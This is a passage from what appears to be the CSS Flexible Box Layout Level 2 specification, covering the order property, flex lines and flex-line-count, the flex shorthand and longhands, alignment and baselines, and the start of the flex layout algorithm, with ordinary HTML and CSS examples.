Flex items are, by default, displayed and laid out in the same order as they appear in the source document, which represents their logical ordering. This same order is used in rendering to non-visual media (such as [speech](#css-speech-1)), in the default traversal order of sequential navigation modes (such as cycling through links, see e.g. [`tabindex`](https://html.spec.whatwg.org/multipage/interaction.html#attr-tabindex) [HTML]), and when content is represented in non-CSS UAs.

The `order` property can be used to change flex items’ ordering, laying them out in order-modified document order instead, in order to make their spatial arrangement on the 2D visual canvas differ from their logical order in linear presentations such as speech and sequential navigation. See [CSS Display 3 § 3 Display Order: the order property](#css-display-4:order-property). [CSS-DISPLAY-3]

> **Note:** Since visual perception is two-dimensional and non-linear, the desired box order is not always the same logical order used by non-visual media and non-CSS UAs.

**Authors *must* use `order` only for visual, not logical, reordering of content. Style sheets that use `order` to perform logical reordering are non-conforming.**

> **Example:** Many web pages have a similar shape in the markup, with a header on top, a footer on bottom, and then a content area and one or two additional columns in the middle. Generally, it’s desirable that the content come first in the page’s source code, before the additional columns. However, this makes many common designs, such as simply having the additional columns on the left and the content area on the right, difficult to achieve. This has been addressed in many ways over the years, often going by the name "Holy Grail Layout" when there are two additional columns. `order` makes this trivial. For example, take the following sketch of a page’s code and desired layout:
>
> ```markup
> <!DOCTYPE html>
> <header>...</header>
> <main>
>    <article>...</article>
>    <nav>...</nav>
>    <aside>...</aside>
> </main>
> <footer>...</footer>
> ```
>
> 
>
> This layout can be easily achieved with flex layout:
>
> ```css
> main { display: flex; }
> main > article { order: 2; min-width: 12em; flex:1; }
> main > nav     { order: 1; width: 200px; }
> main > aside   { order: 3; width: 200px; }
> ```
>
> As an added bonus, the columns will all be `equal-height` by default, and the main content will be as wide as necessary to fill the screen. Additionally, this can then be combined with media queries to switch to an all-vertical layout on narrow screens:
>
> ```css
> @media all and (max-width: 600px) {
>   /* Too narrow to support three columns */
>   main { flex-flow: column; }
>   main > article, main > nav, main > aside {
>     /* Return them to document order */
>     order: 0; width: auto;
>   }
> }
> ```
>
> (Further use of multi-line flex containers to achieve even more intelligent wrapping left as an exercise for the reader.)

### 6.  Flex Lines {#css-flexbox-2:flex-lines}

Flex items in a flex container are laid out and aligned within **flex lines**, hypothetical containers used for grouping and alignment by the layout algorithm. A flex container can be either single-line or multi-line, depending on the `flex-wrap` property:

- A **single-line flex container** (i.e. one with `flex-wrap: nowrap`) lays out all of its children in a single line, even if that would cause its contents to overflow.
- A **multi-line flex container** (i.e. one with `flex-wrap: wrap` or `flex-wrap: wrap-reverse`) breaks its flex items across multiple lines, similar to how text is broken onto a new line when it gets too wide to fit on the existing line. When additional lines are created, they are stacked in the flex container along the cross axis according to the `flex-wrap` property. Every line contains at least one flex item, unless the flex container itself is completely empty.

Additionally, a multi-line flexbox can be a **balanced flex container**, meaning it carefully chooses its linebreaks to make the line lengths as similar as possible. (Otherwise, it simply fills the first line, then the second, etc.)

> **Example:** This example shows four buttons that do not fit side-by-side horizontally, and therefore will wrap into multiple lines.
>
> ```css
> #flex {
>   display: flex;
>   flex-flow: row wrap;
>   width: 300px;
> }
> .item {
>   width: 80px;
> }
> ```
>
> ```markup
> <div id="flex">
>   <div class="item">1</div>
>   <div class="item">2</div>
>   <div class="item">3</div>
>   <div class="item">4</div>
> </div>
> ```
>
> Since the container is 300px wide, only three of the items fit onto a single line. They take up 240px, with 60px left over of remaining space. Because the `flex-flow` property specifies a multi-line flex container (due to the `wrap` keyword appearing in its value), the flex container will create an additional line to contain the last item.
>
> 
>
> An example rendering of the multi-line flex container.

Once content is broken into lines, each line is laid out independently; flexible lengths and the `justify-content` and `align-self` properties only consider the items on a single line at a time.

In a multi-line flex container (even one with only a single line), the cross size of each line is the minimum size necessary to contain the flex items on the line (after alignment due to `align-self`), and the lines are aligned within the flex container with the `align-content` property. In a single-line flex container, the cross size of the line is the cross size of the flex container, and `align-content` has no effect. The main size of a line is always the same as the main size of the flex container’s content box.

> **Example:** Here’s the same example as the previous, except that the flex items have all been given `flex: auto`. The first line has 60px of remaining space, and all of the items have the same flexibility, so each of the three items on that line will receive 20px of extra width, each ending up 100px wide. The remaining item is on a line of its own and will stretch to the entire width of the line, i.e. 300px.
>
> 
>
> A rendering of the same as above, but with the items all given `flex: auto`.

> **Example:** The above examples show three items fitting on a single line, leaving a single item on the second line. `flex-wrap: balance` will instead put two items on the first line, then two on the second line:
>
> 
>
> The previous example’s four items, but now balanced across the two lines with `flex-wrap: balance`.
>
> This can have more dramatic effects when flexing items to fill the line, as the items are more likely to flex similar amounts, rather than the final line’s items flexing a lot more:
>
> 
>
> The same example, but now with `flex: auto`.

#### 6.1.  Minimum Flex Lines: the `flex-line-count` property {#css-flexbox-2:flex-line-count-property}

| Field | Value |
| --- | --- |
| Name: | **flex-line-count** |
| [Value:](#css-values-4:value-defs) | `<integer [1,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | multi-line flex containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the specified integer, computed |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | as integer |

By default, a `balance` flexbox will create as many lines as a normal multi-line flexbox, then rebalance how the flex items are assigned across that many lines. In some situations, an author might want to ensure there are always a certain number of lines, or might be using a flexbox in a way where there is no limit to the line length (the standard for a `column` flexbox, with unlimited available height) and so the "default" line number calculation is useless. The `flex-line-count` property specifies a **minimum flex line count** that the flex container should create to balance the items across.

The minimum flex line count is clamped from above by the number of flex items in the flex container; it will only create as many lines as there are flex items. (That is, if you specify `flex-line-count: 3` but only have two flex items, the minimum flex line count is 2, instead.)

> **Note:** There is no *maximum* flex line count; the flex container will always contain enough lines to hold all of its flex items, which might be more than what `flex-line-count` specifies.

Unused lines (ones with no flex items assigned to them) are discarded and do not affect layout. This only affects non-`balance` flexboxes. A `balance` flexbox will always assign at least one flex item to each line, and if it has less items than `flex-line-count`, that’s handled specially, above.

In addition to setting a minimum number of lines that are used by `balance`, `flex-line-count` changes the available space in the cross axis for flex items: subtracting the size of N-1 gaps from the normal available space, then dividing the leftover by N, where N is the `flex-line-count` value. This uses the actual `flex-line-count` value, not the minimum flex line count or the actual number of generated lines (which can be higher or lower than what is specified).

> **Note:** This available space adjustment is the only effect `flex-line-count` has on non-`balance` flexboxes.

Percentages continue to resolve as normal, unaffected by this available space adjustment. (To have a flex item fill the cross-axis available space, use `height: stretch`, rather than `height: 100%`.)

If the flex container is single-line (aka, `flex-wrap: nowrap`), this property has no effect.

### 7.  Flexibility {#css-flexbox-2:flexibility}

The defining aspect of flex layout is the ability to make the flex items “flex”, altering their width/height to fill the available space in the main dimension. This is done with the `flex` property. A flex container distributes free space to its items (proportional to their flex grow factor) to fill the container, or shrinks them (proportional to their flex shrink factor) to prevent overflow.

A flex item is **fully inflexible** if both its `flex-grow` and `flex-shrink` values are zero, and **flexible** otherwise.

#### 7.1.  The `flex` Shorthand {#css-flexbox-2:flex-property}

| Field | Value |
| --- | --- |
| Name: | **flex** |
| [Value:](#css-values-4:value-defs) | none \| [ `<'flex-grow'>` `<'flex-shrink'>`? \|\| `<'flex-basis'>` ] |
| [Initial:](#css-cascade-6:initial-values) | 0 1 auto |
| [Applies to:](#css-cascade-5:applies-to) | flex items |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `flex` property specifies the components of a flexible size: the **flex factors** (grow and shrink) and the flex basis. When a box is a flex item, `flex` is consulted *instead of* the main size property to determine the main size of the box. If a box is not a flex item, `flex` has no effect.

> **Note:** The initial values of the `flex` longhands are equivalent to [flex: 0 1 auto](#css-flexbox-2:flex-initial). This differs from their defaults when omitted in the `flex` shorthand (effectively `1 1 0px`) so that the `flex` shorthand can better accommodate [the most common cases](#css-flexbox-2:flex-common).

****`<'flex-grow'>`****

: This `<number [0,∞]>` component sets `flex-grow` [longhand](#css-flexbox-2:flex-components) and specifies the **flex grow factor**, which determines how much the flex item will grow relative to the rest of the flex items in the flex container when positive free space is distributed. When omitted, it is set to `1`.

  > **Note:** Flex values between 0 and 1 have a somewhat special behavior: when the sum of the flex values on the line is less than 1, they will take up less than 100% of the free space.
  >
  > An item’s `flex-grow` value is effectively a request for some proportion of the free space, with `1` meaning “100% of the free space”; then if the items on the line are requesting more than 100% in total, the requests are rebalanced to keep the same ratio but use up exactly 100% of it. However, if the items request *less* than the full amount (such as three items that are each `flex-grow: .25`) then they’ll each get exactly what they request (25% of the free space to each, with the final 25% left unfilled). See [§ 9.8 Resolving Flexible Lengths](#css-flexbox-2:resolve-flexible-lengths) for the exact details of how free space is distributed.
  >
  > This pattern is required for continuous behavior as `flex-grow` approaches zero (which means the item wants *none* of the free space). Without this, a `flex-grow: 1` item would take all of the free space; but so would a `flex-grow: 0.1` item, and a `flex-grow: 0.01` item, etc., until finally the value is small enough to underflow to zero and the item suddenly takes up none of the free space. With this behavior, the item instead gradually takes less of the free space as `flex-grow` shrinks below `1`, smoothly transitioning to taking none of the free space at zero.
  >
  > Unless this “partial fill” behavior is *specifically* what’s desired, authors should stick to values ≥ 1; for example, using `1` and `2` is usually better than using `.33` and `.67`, as they’re more likely to behave as intended if items are added, removed, or line-wrapped.

****`<'flex-shrink'>`****

: This `<number [0,∞]>` component sets `flex-shrink` [longhand](#css-flexbox-2:flex-components) and specifies the **flex shrink factor**, which determines how much the flex item will shrink relative to the rest of the flex items in the flex container when negative free space is distributed. When omitted, it is set to `1`.

  > **Note:** The flex shrink factor is multiplied by the flex base size when distributing negative space. This distributes negative space in proportion to how much the item is able to shrink, so that e.g. a small item won’t shrink to zero before a larger item has been noticeably reduced.

****`<'flex-basis'>`****

: This component sets the `flex-basis` [longhand](#css-flexbox-2:flex-components), which specifies the **flex basis**: the initial main size of the flex item, before free space is distributed according to the flex factors.

  `<'flex-basis'>` accepts the same values as the `width` and `height` properties (except that `auto` is treated differently) plus the `content` keyword:

  ****auto****

  : When specified on a flex item, the `auto` keyword retrieves the value of the main size property as the used `flex-basis`. If that value is itself `auto`, then the used value is `content`.

  ****content****

  : Indicates an automatic size based on the flex item’s content. (This is typically equivalent to the max-content size, but with adjustments to handle preferred aspect ratios, intrinsic sizing constraints, and orthogonal flows; see [details](#css-flexbox-2:algo-main-item) in [§ 9 Flex Layout Algorithm](#css-flexbox-2:layout-algorithm).)

    > **Note:** This value was not present in the initial release of Flexible Box Layout, and thus some older implementations will not support it. The equivalent effect can be achieved by using `auto` together with a main size (`width` or `height`) of `auto`.

  **`<'width'>`**

  : For all other values, `flex-basis` is resolved the same way as for `width` and `height`.

  When omitted from the `flex` shorthand, its specified value is `0`.

****none****

: The keyword `none` expands to `0 0 auto`.


A diagram showing the difference between "absolute" flex (starting from a basis of zero) and "relative" flex (starting from a basis of the item’s content size). The three items have flex factors of `1`, `1`, and `2`, respectively: notice that the item with a flex factor of `2` grows twice as fast as the others.

A unitless zero that is not already preceded by two flex factors must be interpreted as a flex factor. To avoid misinterpretation or invalid declarations, authors must specify a zero `<'flex-basis'>` component with a unit or precede it by two flex factors.

##### 7.1.1.  Basic Values of `flex` {#css-flexbox-2:flex-common}

*This section is informative.*

The list below summarizes the effects of the four `flex` values that represent most commonly-desired effects:

**`flex: initial`**

: Equivalent to `flex: 0 1 auto`. (This is the initial value.) Sizes the item based on the `width`/`height` properties. (If the item’s main size property computes to `auto`, this will size the flex item based on its contents.) Makes the flex item inflexible when there is positive free space, but allows it to shrink to its minimum size when there is insufficient space. The [alignment abilities](#css-flexbox-2:alignment) or [`auto` margins](#css-flexbox-2:auto-margins) can be used to align flex items along the main axis.

**`flex: auto`**

: Equivalent to `flex: 1 1 auto`. Sizes the item based on the `width`/`height` properties, but makes them fully flexible, so that they absorb any free space along the main axis. If all items are either `flex: auto`, `flex: initial`, or `flex: none`, any positive free space after the items have been sized will be distributed evenly to the items with `flex: auto`.

**`flex: none`**

: Equivalent to `flex: 0 0 auto`. This value sizes the item according to the `width`/`height` properties, but makes the flex item fully inflexible. This is similar to `initial`, except that flex items are not allowed to shrink, even in overflow situations.

**`flex: <number [1,∞]>`**

: Equivalent to `flex: <number [1,∞]> 1 0`. Makes the flex item flexible and sets the flex basis to zero, resulting in an item that receives the specified proportion of the free space in the flex container. If all items in the flex container use this pattern, their sizes will be proportional to the specified flex factor.

By default, flex items won’t shrink below their minimum content size (the length of the longest word or fixed-size element). To change this, set the `min-width` or `min-height` property. (See [§ 4.5 Automatic Minimum Size of Flex Items](#css-flexbox-2:min-size-auto).)

#### 7.2.  Components of Flexibility {#css-flexbox-2:flex-components}

Individual components of flexibility can be controlled by independent longhand properties.

**Authors are encouraged to control flexibility using the `flex` shorthand rather than with its longhand properties directly, as the shorthand correctly resets any unspecified components to accommodate [common uses](#css-flexbox-2:flex-common).**

##### 7.2.1.  The `flex-grow` property {#css-flexbox-2:flex-grow-property}

| Field | Value |
| --- | --- |
| Name: | **flex-grow** |
| [Value:](#css-values-4:value-defs) | `<number [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | flex items |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified number |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

**Authors are encouraged to control flexibility using the `flex` shorthand rather than with `flex-grow` directly, as the shorthand correctly resets any unspecified components to accommodate [common uses](#css-flexbox-2:flex-common).**

The `flex-grow` property sets the flex grow factor to the provided **`<number>`**. Negative values are not allowed.

##### 7.2.2.  The `flex-shrink` property {#css-flexbox-2:flex-shrink-property}

| Field | Value |
| --- | --- |
| Name: | **flex-shrink** |
| [Value:](#css-values-4:value-defs) | `<number [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | flex items |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | number |

**Authors are encouraged to control flexibility using the `flex` shorthand rather than with `flex-shrink` directly, as the shorthand correctly resets any unspecified components to accommodate [common uses](#css-flexbox-2:flex-common).**

The `flex-shrink` property sets the flex shrink factor to the provided **`<number>`**. Negative values are not allowed.

##### 7.2.3.  The `flex-basis` property {#css-flexbox-2:flex-basis-property}

| Field | Value |
| --- | --- |
| Name: | **flex-basis** |
| [Value:](#css-values-4:value-defs) | content \| `<'width'>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | flex items |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the flex container’s inner main size |
| [Computed value:](#css-cascade-6:computed) | specified keyword or a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

**Authors are encouraged to control flexibility using the `flex` shorthand rather than with `flex-basis` directly, as the shorthand correctly resets any unspecified components to accommodate [common uses](#css-flexbox-2:flex-common).**

The `flex-basis` property sets the flex basis. It accepts the same values as the `width` and `height` property, plus `content`.

For all values other than `auto` and `content` (defined above), `flex-basis` is resolved the same way as `width` in horizontal writing modes [CSS2], except that if a value would resolve to `auto` for `width`, it instead resolves to `content` for `flex-basis`. For example, percentage values of `flex-basis` are resolved against the flex item’s containing block (i.e. its flex container); and if that containing block’s size is indefinite, the used value for `flex-basis` is `content`. As another corollary, `flex-basis` determines the size of the content box, unless otherwise specified such as by `box-sizing` [CSS3UI].

### 8.  Alignment {#css-flexbox-2:alignment}

After a flex container’s contents have finished their flexing and the dimensions of all flex items are finalized, they can then be aligned within the flex container.

The `margin` properties can be used to align items in a manner similar to, but more powerful than, what margins can do in block layout. Flex items also respect the alignment properties from [CSS Box Alignment](https://www.w3.org/TR/css3-align/), which allow easy keyword-based alignment of items in both the main axis and cross axis. These properties make many common types of alignment trivial, including some things that were very difficult in CSS 2.1, like horizontal and vertical centering.

> **Note:** While the alignment properties are defined in [CSS Box Alignment](https://www.w3.org/TR/css3-align/) [CSS-ALIGN-3], Flexible Box Layout reproduces the definitions of the relevant ones here so as to not create a normative dependency that may slow down advancement of the spec. These properties apply only to flex layout until [CSS Box Alignment Level 3](https://www.w3.org/TR/css3-align/) is finished and defines their effect for other layout modes. Additionally, any new values defined in the Box Alignment module will apply to Flexible Box Layout; in other words, the Box Alignment module, once completed, will supersede the definitions here.

#### 8.1.  Aligning with `auto` margins {#css-flexbox-2:auto-margins}

*This section is non-normative. The normative definition of how margins affect flex items is in the [Flex Layout Algorithm](#css-flexbox-2:layout-algorithm) section.*

Auto margins on flex items have an effect very similar to auto margins in block flow:

- During calculations of flex bases and flexible lengths, auto margins are treated as `0`.
- Prior to alignment via `justify-content` and `align-self`, any positive free space is distributed to auto margins in that dimension.
- Overflowing boxes ignore their auto margins and overflow in the end direction.

> **Note:** If free space is distributed to auto margins, the alignment properties will have no effect in that dimension because the margins will have stolen all the free space left over after flexing.

> **Example:** One use of `auto` margins in the main axis is to separate flex items into distinct "groups". The following example shows how to use this to reproduce a common UI pattern - a single bar of actions with some aligned on the left and others aligned on the right.
>
> Sample rendering of the code below.
>
> - [About](#)
> - [Projects](#)
> - [Interact](#)
> - [Login](#)
>
> ```css
> nav > ul {
>   display: flex;
> }
> nav > ul > #login {
>   margin-left: auto;
> }
> ```
>
> ```markup
> <nav>
>   <ul>
>     <li><a href=/about>About</a>
>     <li><a href=/projects>Projects</a>
>     <li><a href=/interact>Interact</a>
>     <li id="login"><a href=/login>Login</a>
>   </ul>
> </nav>
> ```

> **Example:** The figure below illustrates the difference in cross-axis alignment in overflow situations between using [`auto` margins](#css-flexbox-2:auto-margins) and using the `alignment properties`.
>
> About
>
> Authoritarianism
>
> Blog
>
> About
>
> Authoritarianism
>
> Blog
>
> The items in the figure on the left are centered with margins, while those in the figure on the right are centered with `align-self`. If this column flex container was placed against the left edge of the page, the margin behavior would be more desirable, as the long item would be fully readable. In other circumstances, the true centering behavior might be better.

#### 8.2.  Axis Alignment: the `justify-content` property {#css-flexbox-2:justify-content-property}

| Field | Value |
| --- | --- |
| Name: | **justify-content** |
| [Value:](#css-values-4:value-defs) | flow-start \| flow-end \| flex-start \| flex-end \| center \| space-between \| space-around |
| [Initial:](#css-cascade-6:initial-values) | flow-start |
| [Applies to:](#css-cascade-5:applies-to) | flex containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `justify-content` property aligns flex items along the main axis of the current line of the flex container. This is done *after* any flexible lengths and any [auto margins](#css-flexbox-2:auto-margins) have been resolved. Typically it helps distribute extra free space leftover when either all the flex items on a line are inflexible, or are flexible but have reached their maximum size. It also exerts some control over the alignment of items when they overflow the line.

****flow-start****

: Flex items are packed toward the start of the line. The main-start margin edge of the first flex item on the line is placed flush with the main-start edge of the line, and each subsequent flex item is placed flush with the preceding item.

****flow-end****

: Flex items are packed toward the end of the line. The main-end margin edge of the last flex item is placed flush with the main-end edge of the line, and each preceding flex item is placed flush with the subsequent item.

****center****

: Flex items are packed toward the center of the line. The flex items on the line are placed flush with each other and aligned in the center of the line, with equal amounts of space between the main-start edge of the line and the first item on the line and between the main-end edge of the line and the last item on the line. (If the leftover free-space is negative, the flex items will overflow equally in both directions.)

****space-between****

: Flex items are evenly distributed in the line. If the leftover free-space is negative or there is only a single flex item on the line, this value falls back to `safe flow-start`. Otherwise, the main-start margin edge of the first flex item on the line is placed flush with the main-start edge of the line, the main-end margin edge of the last flex item on the line is placed flush with the main-end edge of the line, and the remaining flex items on the line are distributed so that the spacing between any two adjacent items is the same.

****space-around****

: Flex items are evenly distributed in the line, with half-size spaces on either end. If the leftover free-space is negative or there is only a single flex item on the line, this value falls back to `safe center`. Otherwise, the flex items on the line are distributed such that the spacing between any two adjacent flex items on the line is the same, and the spacing between the first/last flex items and the flex container edges is half the size of the spacing between flex items.


An illustration of the five `justify-content` keywords and their effects on a flex container with three colored items.

#### 8.3.  Cross-axis Alignment: the `align-items` and `align-self` properties {#css-flexbox-2:align-items-property}

| Field | Value |
| --- | --- |
| Name: | **align-items** |
| [Value:](#css-values-4:value-defs) | flow-start \| flow-end \| flex-start \| flex-end \| center \| baseline \| stretch |
| [Initial:](#css-cascade-6:initial-values) | stretch |
| [Applies to:](#css-cascade-5:applies-to) | flex containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

| Field | Value |
| --- | --- |
| Name: | **align-self** |
| [Value:](#css-values-4:value-defs) | auto \| flow-start \| flow-end \| flex-start \| flex-end \| center \| baseline \| stretch |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | flex items |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Flex items can be aligned in the cross axis of the current line of the flex container, similar to `justify-content` but in the perpendicular direction. `align-items` sets the default alignment for all of the flex container’s items, including anonymous flex items. `align-self` allows this default alignment to be overridden for individual flex items. (For anonymous flex items, `align-self` always matches the value of `align-items` on their associated flex container.)

If either of the flex item’s cross-axis margins are `auto`, `align-self` has no effect.

Values have the following meanings:

****auto****

: Defers cross-axis alignment control to the value of `align-items` on the parent box. (This is the initial value of `align-self`.)

****flow-start****

: The cross-start margin edge of the flex item is placed flush with the cross-start edge of the line.

****flow-end****

: The cross-end margin edge of the flex item is placed flush with the cross-end edge of the line.

****center****

: The flex item’s margin box is centered in the cross axis within the line. (If the cross size of the flex line is less than that of the flex item, it will overflow equally in both directions.)

****baseline****

: The flex item **participates in baseline alignment**: all participating flex items on the line are aligned such that their baselines align, and the item with the largest distance between its baseline and its cross-start margin edge is placed flush against the cross-start edge of the line. If the item does not have a baseline in the necessary axis, then one is synthesized from the flex item’s border box.

****stretch****

: If the cross size property of the flex item computes to `auto`, and neither of the cross-axis margins are `auto`, the flex item is **stretched**. Its used value is the length necessary to make the cross size of the item’s margin box as close to the same size as the line as possible, while still respecting the constraints imposed by `min-height`/`min-width`/`max-height`/`max-width`.

  > **Note:** If the flex container’s height is constrained this value may cause the contents of the flex item to overflow the item.

  The cross-start margin edge of the flex item is placed flush with the cross-start edge of the line.


An illustration of the five `align-items` keywords and their effects on a flex container with four colored items.

#### 8.4.  Packing Flex Lines: the `align-content` property {#css-flexbox-2:align-content-property}

| Field | Value |
| --- | --- |
| Name: | **align-content** |
| [Value:](#css-values-4:value-defs) | flow-start \| flow-end \| flex-start \| flex-end \| center \| space-between \| space-around \| stretch |
| [Initial:](#css-cascade-6:initial-values) | stretch |
| [Applies to:](#css-cascade-5:applies-to) | multi-line flex containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `align-content` property aligns a flex container’s lines within the flex container when there is extra space in the cross-axis, similar to how `justify-content` aligns individual items within the main-axis. Note, this property has no effect on a single-line flex container. Values have the following meanings:

****flow-start****

: Lines are packed toward the start of the flex container. The cross-start edge of the first line in the flex container is placed flush with the cross-start edge of the flex container, and each subsequent line is placed flush with the preceding line.

****flow-end****

: Lines are packed toward the end of the flex container. The cross-end edge of the last line is placed flush with the cross-end edge of the flex container, and each preceding line is placed flush with the subsequent line.

****center****

: Lines are packed toward the center of the flex container. The lines in the flex container are placed flush with each other and aligned in the center of the flex container, with equal amounts of space between the cross-start content edge of the flex container and the first line in the flex container, and between the cross-end content edge of the flex container and the last line in the flex container. (If the leftover free-space is negative, the lines will overflow equally in both directions.)

****space-between****

: Lines are evenly distributed in the flex container. If the leftover free-space is negative or there is only a single flex line in the flex container, this value falls back to `safe flow-start`. Otherwise, the cross-start edge of the first line in the flex container is placed flush with the cross-start content edge of the flex container, the cross-end edge of the last line in the flex container is placed flush with the cross-end content edge of the flex container, and the remaining lines in the flex container are distributed so that the spacing between any two adjacent lines is the same.

****space-around****

: Lines are evenly distributed in the flex container, with half-size spaces on either end. If the leftover free-space is negative this value falls back to `safe center`. Otherwise, the lines in the flex container are distributed such that the spacing between any two adjacent lines is the same, and the spacing between the first/last lines and the flex container edges is half the size of the spacing between flex lines.

****stretch****

: Lines stretch to take up the remaining space. If the leftover free-space is negative, this value falls back to `flow-start`. Otherwise, the free-space is split equally between all of the lines, increasing their cross size.

> **Note:** Only multi-line flex containers ever have free space in the cross-axis for lines to be aligned in, because in a single-line flex container the sole line automatically stretches to fill the space.


An illustration of the `align-content` keywords and their effects on a multi-line flex container.

#### 8.5.  Flex Container Baselines {#css-flexbox-2:flex-baselines}

In order for a flex container to itself participate in baseline alignment (e.g. when the flex container is itself a flex item in an outer flex container), it needs to submit the position of the baselines that will best represent its contents. To this end, the baselines of a flex container are determined as follows (after reordering with `order`, and taking `flex-direction` into account):

**first/last  **main-axis baseline set****

: When the inline axis of the flex container matches its main axis, its baselines are determined as follows:

  1. If any of the flex items on the flex container’s startmost/endmost flex line participate in baseline alignment, the flex container’s first/last main-axis baseline set is generated from the shared alignment baseline of those flex items.
  2. Otherwise, if the flex container has at least one flex item, the flex container’s first/last main-axis baseline set is generated from the alignment baseline of the startmost/endmost flex item. (If that item has no alignment baseline parallel to the flex container’s main axis, then one is first synthesized from its border edges.)
  3. Otherwise, the flex container has no first/last main-axis baseline set, and one is synthesized if needed according to the rules of its alignment context.

**first/last  **cross-axis baseline set****

: When the inline axis of the flex container matches its cross axis, its baselines are determined as follows:

  1. If the flex container has at least one flex item, the flex container’s first/last cross-axis baseline set is generated from the alignment baseline of the startmost/endmost flex item. (If that item has no alignment baseline parallel to the flex container’s cross axis, then one is first synthesized from its border edges.)
  2. Otherwise, the flex container has no first/last cross-axis baseline set, and one is synthesized if needed according to the rules of its alignment context.

When calculating the baseline according to the above rules, if the box contributing a baseline has an `overflow` value that allows scrolling, the box must be treated as being in its initial scroll position for the purpose of determining its baseline.

When [determining the baseline of a table cell](#css2:height-layout), a flex container provides a baseline just as a line box or table-row does. [CSS2]

See [CSS Writing Modes 3 § 4.1 Introduction to Baselines](#css-writing-modes-4:intro-baselines) and [CSS Box Alignment 3 § 9 Baseline Alignment Details](#css-align-3:baseline-rules) for more information on baselines.

### 9.  Flex Layout Algorithm {#css-flexbox-2:layout-algorithm}

This section contains normative algorithms detailing the exact layout behavior of a flex container and its contents. The algorithms here are written to optimize readability and theoretical simplicity, and may not necessarily be the most efficient. Implementations may use whatever actual algorithms they wish, but must produce the same results as the algorithms described here.

> **Note:** This section is mainly intended for implementors. Authors writing web pages should generally be served well by the individual property descriptions, and do not need to read this section unless they have a deep-seated urge to understand arcane details of CSS layout.

The following sections define the algorithm for laying out a flex container and its contents.

> **Note:** Flex layout works with the flex items in order-modified document order, not their original document order.

#### 9.1.  Initial Setup {#css-flexbox-2:box-manip}

1. **Generate anonymous flex items** as described in [§ 4 Flex Items](#css-flexbox-2:flex-items).

#### 9.2.  Line Length Determination {#css-flexbox-2:line-sizing}

1. **Determine the available main and cross space for the flex items.** For each dimension, if that dimension of the flex container’s content box is a definite size, use that; if that dimension of the flex container is being sized under a min or max-content constraint, the available space in that dimension is that constraint; otherwise, subtract the flex container’s margin, border, and padding from the space available to the flex container in that dimension and use that value. This might result in an infinite value.

   If the available space in the cross axis is definite, then additionally modify it based on `flex-line-count`.

   > **Example:** For example, the available space to a flex item in a 'float|floated' auto-sized flex container is:
   >
   > - the width of the flex container containing block minus the flex container’s margin, border, and padding in the horizontal dimension
   > - infinite in the vertical dimension
2. **Determine the **flex base size** and **hypothetical main size** of each item:**

  1. If the item has a definite used flex basis, that’s the flex base size.
  2. If the flex item has ...

    - a preferred aspect ratio,
    - a used flex basis of `content`, and
    - a definite cross size,

     then the flex base size is calculated from its used cross size and the flex item’s aspect ratio.
  3. If the used flex basis is `content` or depends on its available space, and the flex container is being sized under a min-content or max-content constraint (e.g. when performing [automatic table layout](#css2:auto-table-layout) [CSS2]), size the item under that constraint. The flex base size is the item’s resulting main size.
  4. Otherwise, if the used flex basis is `content` or depends on its available space, the available main size is infinite, and the flex item’s inline axis is parallel to the main axis, lay the item out using [the rules for a box in an orthogonal flow](#css-writing-modes-4:orthogonal-flows) [CSS3-WRITING-MODES]. The flex base size is the item’s max-content main size.

     > **Note:** This case occurs, for example, in an English document (horizontal writing mode) containing a column flex container containing a vertical Japanese (vertical writing mode) flex item.
  5. Otherwise, size the item into the available space using its used flex basis in place of its main size, treating a value of `content` as `max-content`. If a cross size is needed to determine the main size (e.g. when the flex item’s main size is in its block axis, or when it has a preferred aspect ratio) and the flex item’s cross size is `auto` and not definite, in this calculation use `fit-content` as the flex item’s cross size. The flex base size is the item’s resulting main size.

